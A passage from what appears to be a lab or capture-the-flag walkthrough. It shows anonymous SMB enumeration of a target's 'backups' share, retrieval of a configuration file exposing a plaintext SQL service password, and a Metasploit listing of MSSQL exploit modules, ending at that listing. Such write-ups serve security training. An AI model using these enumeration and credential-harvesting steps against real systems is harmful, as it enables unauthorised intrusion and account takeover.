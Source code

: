 If we try to access to the several shares, we get an error tree connect failed: **`NT_STATUS_ACCESS_DENIED`**. The only share we can anonymously access is **`backups`**. Indeed:

    smbclient -N \\\\10.10.10.27\\backups
    smb: \> dir
      .                                   D        0  Mon Jan 20 12:20:57 2020
      ..                                  D        0  Mon Jan 20 12:20:57 2020
      prod.dtsConfig                     AR      609  Mon Jan 20 12:23:02 2020

		                10328063 blocks of size 4096. 8260702 blocks available

We found one configutation file named **`prod.dtsConfig`**. We can read it by getting the file on our attacker_machine:

    smb: \> get prod.dtsConfig
    
or reading directly on the victim_machine:

    smb: \> more prod.dtsConfig

The content of the file is the following:

```xml
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
We can immediately see the credentials on the **`Password`** and **`User ID`** variables.

At this point, we have several ways to go ahead or gather more information, for example, we can use Metasploit modules or Impacket's mssqlclient.py. The modules we can use with Metasploit are:

    msf6 > search mssql

    Matching Modules
    ================
    
       #   Name                                                      Disclosure Date  Rank       Check  Description
       -   ----                                                      ---------------  ----       -----  -----------
       0   exploit/windows/misc/ais_esel_server_rce                  2019-03-27       excellent  Yes    AIS logistics ESEL-Server Unauth SQL Injection RCE
       1   auxiliary/server/capture/mssql                                             normal     No     Authentication Capture: MSSQL
       2   auxiliary/gather/lansweeper_collector                                      normal     No     Lansweeper Credential Collector
       3   exploit/windows/mssql/lyris_listmanager_weak_pass         2005-12-08       excellent  No     Lyris ListManager MSDE Weak sa Password
       4   exploit/windows/mssql/ms02_039_slammer                    2002-07-24       good       Yes    MS02-039 Microsoft SQL Server Resolution Overflow
       5   exploit/windows/mssql/ms02_056_hello                      2002-08-05       good       Yes    MS02-056 Microsoft SQL Server Hello Overflow
       6   exploit/windows/mssql/ms09_004_sp_replwritetovarbin       2008-12-09       good       Yes    MS09-004 Microsoft SQL Server sp_replwritetovarbin Memory Corruption
       7   exploit/windows/mssql/ms09_004_sp_replwritetovarbin_sqli  2008-12-09       excellent  Yes    MS09-004 Microsoft SQL Server sp_replwritetovarbin Memory Corruption via SQL Injection
       8   exploit/windows/iis/msadc                                 1998-07-17       excellent  Yes    MS99-025 Microsoft IIS MDAC msadcs.dll RDS Arbitrary Remote Command Execution
